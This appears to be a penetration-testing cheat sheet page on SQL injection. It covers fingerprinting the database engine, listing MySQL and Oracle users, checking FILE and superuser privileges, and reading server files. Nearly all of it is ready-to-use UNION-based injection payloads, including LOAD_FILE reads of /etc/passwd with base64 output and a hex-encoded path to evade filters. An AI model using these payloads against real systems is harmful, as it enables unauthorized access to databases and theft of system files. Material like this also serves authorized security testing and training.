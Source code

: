 If none of the other payloads work, then let's do the following:

* The following sqlmap resource provides a list of DBMS:

{% embed url="https://github.com/sqlmapproject/sqlmap/wiki/Usage#force-the-dbms" %}

* For each DBMS, **we are going to look for a payload to know the version** (for example, MySQL has the command `@@version`). We have to do this until we find one that returns a successful result, which is where we will have found the correct DBMS.

## DB User

{% tabs %}
{% tab title="MySQL" %}
```sql
user()
current_user()
UNION SELECT 1,2,user,4 FROM mysql.user-- -
```
{% endtab %}

{% tab title="Oracle" %}
```sql
' # View all available users:
' UNION SELECT USERNAME,NULL FROM DBA_USERS-- -
' # View current user:
' UNION SELECT USERNAME,NULL FROM USER_USERS-- -
```
{% endtab %}
{% endtabs %}

## Reading files

{% tabs %}
{% tab title="MySQL" %}
### Privilege verification

In **MySQL** the DB user must have the **FILE** privilege to load the contents of a file into a table and then dump data from that table and read files. There are 2 steps we have to check:

* We need to know **which users we are in the DB**: [DB User](other-payloads.md#db-user)
* We have to see if we have **FILE privilege** or **superuser privilege**:

```sql
' # See if we have the superuser privilege. If we get a Y (YES), we can read files.
' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="<USERNAME>"-- -
' # See all the privileges we have:
' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges-- -
```

### Payloads

```sql
select load_file('/etc/passwd')
load_file('/etc/passwd')
' # Examples:
' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
' # Base64 output:
' UNION SELECT 1, to_base64(load_file('/etc/passwd')), 3, 4-- - 
' # File obfuscation in hexadecimal:
echo -n '/etc/passwd' | xxd -ps
' UNION SELECT 1, LOAD_FILE(0x2f6574632f706173737764), 3, 4-- - # Add 0x
```
{% endtab %}
